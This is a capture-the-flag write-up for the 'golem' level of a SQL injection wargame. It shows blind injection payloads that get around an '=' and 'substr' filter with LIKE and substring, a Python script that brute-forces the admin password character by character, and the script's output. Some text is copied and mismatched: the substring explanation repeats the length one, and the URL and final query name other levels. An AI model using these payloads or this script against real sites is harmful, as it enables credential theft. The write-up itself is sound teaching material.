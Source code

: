 ```yaml
---
custom_edit_url: null
sidebar_position: 11
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/70c7ce92-21ac-447b-af42-ded1eaaf1b64)

We are provided with the SQL query:

```sql
SELECT id FROM prob_golem WHERE id='guest' AND pw='{$_GET[pw]}'
```

The code also performs two conditional checks:

1. `if($result['id'])`: It checks if the statement is `True`. If yes, it prints the following message: `Hello admin`
2. `if(($result['pw']) && ($result['pw'] == $_GET['pw']))`: It then checks if the `pw` that is provided is correct. If yes, it prints the flag.

It is similar to [orge](https://writeups-kunull.vercel.app/Lord%20of%20SQLInjection/orge) but this level also blocks the `=` and `substr` characters. So we will have to use their alternatives `LIKE` and `substring` respectively.

In order to print out the flag, we need to first know the password. We have to perform a Blind SQL Injection.

## Blind SQL Injection

First we have to reveal the length of the flag.

### Retrieving the password length

If we provide the following URI parameter:

```
?pw=' || id LIKE 'admin' %26%26 length(pw) LIKE [lemgth] -- -
```

The resultant query becomes:

```sql
SELECT id FROM prob_golem WHERE id='admin' AND pw='' || id LIKE 'admin' && length(pw) LIKE [lemgth] -- -'
```

When the length of `pw` for `id='admin'` is equal to the `[length]` that we provide, the query will result into `True`. 
This will cause the `Hello admin` message to be printed. 
We can brute force the length and use the message as an indicator of correct brute force value.

### Leaking the password

Next, we can leak the password byte by byte using the `substr()` function.

#### `substr()`

![Pasted image 20240610125927](https://github.com/Kunull/Write-ups/assets/110326359/063e53c5-9020-42b4-b78a-40133f95d84d)

If we provide the following URI parameter:

```
?pw=' || id LIKE 'admin' %26%26 substring(pw, [index], 1) LIKE '[character]' -- -
```

The resultant query becomes:

```sql
SELECT id FROM prob_golem WHERE id='admin' AND pw='' || id LIKE 'admin' && substring(pw, [index], 1) LIKE '[character]' -- -'
```

When the length of `pw` for `id='admin'` is equal to the `[length]` that we provide, the query will result into `True`. 
This will cause the `Hello admin` message to be printed. 
We can brute force the length and use the message as an indicator of correct brute force value.

### Script

We can automate the entire process using a script.

```py title="golem_script.md"
import requests
import urllib.parse
import string

cookies = {'PHPSESSID': 'jeae4igtrh2cq92r63ob4kqmqr'}
url = "https://los.rubiya.kr/chall/orge_bad2f25db233a7542be75844e314e9f3.php"
password_length = 0

for x in range(0, 10):
  payload = f"' || id LIKE 'admin' && length(pw) LIKE {x} -- -"
  encoded_payload = urllib.parse.quote_plus(payload)
  full_url = f"{url}?pw={encoded_payload}"
    
  response = requests.get(full_url, cookies=cookies)
    
  if "Hello admin" in response.text:
    password_length = x
    break

print()    
print(f"[!] Payload: ?pw={payload}")
print(f"[!] Payload (URL encoded): ?pw={encoded_payload}")
print(f"[!] Password length: {password_length}")

password = ""
searchspace = string.digits + string.ascii_letters

for index in range(1, password_length + 1):
  for char in searchspace:
    payload = f"' || id LIKE 'admin' && substring(pw, {index}, 1) LIKE '{char}' -- -"
    encoded_payload = urllib.parse.quote_plus(payload)
    full_url = f"{url}?pw={encoded_payload}"

    response = requests.get(full_url, cookies=cookies)

    if "Hello admin" in response.text:
      password += char
      print()
      print(f"[+] Payload: ?pw={payload}")
      print(f"[+] Payload (URL encoded): ?pw={encoded_payload}")
      print(f"[+] Character at index {index}: {char}")
      break

print()
print(f"[!] Extracted password: {password}")
print(f"[!] Final payload: ?pw={password}")
```

```
$ python .\golem_script.py.py

[!] Payload: ?pw=' || id LIKE 'admin' && length(pw) LIKE 8 -- -
[!] Payload (URL encoded): ?pw=%27+%7C%7C+id+LIKE+%27admin%27+%26%26+length%28pw%29+LIKE+8+--+-
[!] Password length: 8

[+] Payload: ?pw=' || id LIKE 'admin' && substring(pw, 1, 1) LIKE '7' -- -
[+] Payload (URL encoded): ?pw=%27+%7C%7C+id+LIKE+%27admin%27+%26%26+substring%28pw%2C+1%2C+1%29+LIKE+%277%27+--+-
[+] Character at index 1: 7

[+] Payload: ?pw=' || id LIKE 'admin' && substring(pw, 2, 1) LIKE '7' -- -
[+] Payload (URL encoded): ?pw=%27+%7C%7C+id+LIKE+%27admin%27+%26%26+substring%28pw%2C+2%2C+1%29+LIKE+%277%27+--+-
[+] Character at index 2: 7

[+] Payload: ?pw=' || id LIKE 'admin' && substring(pw, 3, 1) LIKE 'd' -- -
[+] Payload (URL encoded): ?pw=%27+%7C%7C+id+LIKE+%27admin%27+%26%26+substring%28pw%2C+3%2C+1%29+LIKE+%27d%27+--+-
[+] Character at index 3: d

[+] Payload: ?pw=' || id LIKE 'admin' && substring(pw, 4, 1) LIKE '6' -- -
[+] Payload (URL encoded): ?pw=%27+%7C%7C+id+LIKE+%27admin%27+%26%26+substring%28pw%2C+4%2C+1%29+LIKE+%276%27+--+-
[+] Character at index 4: 6

[+] Payload: ?pw=' || id LIKE 'admin' && substring(pw, 5, 1) LIKE '2' -- -
[+] Payload (URL encoded): ?pw=%27+%7C%7C+id+LIKE+%27admin%27+%26%26+substring%28pw%2C+5%2C+1%29+LIKE+%272%27+--+-
[+] Character at index 5: 2

[+] Payload: ?pw=' || id LIKE 'admin' && substring(pw, 6, 1) LIKE '9' -- -
[+] Payload (URL encoded): ?pw=%27+%7C%7C+id+LIKE+%27admin%27+%26%26+substring%28pw%2C+6%2C+1%29+LIKE+%279%27+--+-
[+] Character at index 6: 9

[+] Payload: ?pw=' || id LIKE 'admin' && substring(pw, 7, 1) LIKE '0' -- -
[+] Payload (URL encoded): ?pw=%27+%7C%7C+id+LIKE+%27admin%27+%26%26+substring%28pw%2C+7%2C+1%29+LIKE+%270%27+--+-
[+] Character at index 7: 0

[+] Payload: ?pw=' || id LIKE 'admin' && substring(pw, 8, 1) LIKE 'b' -- -
[+] Payload (URL encoded): ?pw=%27+%7C%7C+id+LIKE+%27admin%27+%26%26+substring%28pw%2C+8%2C+1%29+LIKE+%27b%27+--+-
[+] Character at index 8: b

[!] Extracted password: 77d6290b
[!] Final payload: ?pw=77d6290b
```

Now, we can provide password URI parameter:

```
?pw=77d6290b
```

The resultant query becomes:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='77d6290b'
```

![7](https://github.com/Kunull/Write-ups/assets/110326359/32bafc83-a76d-4d3d-98b0-8f47a4f83333)

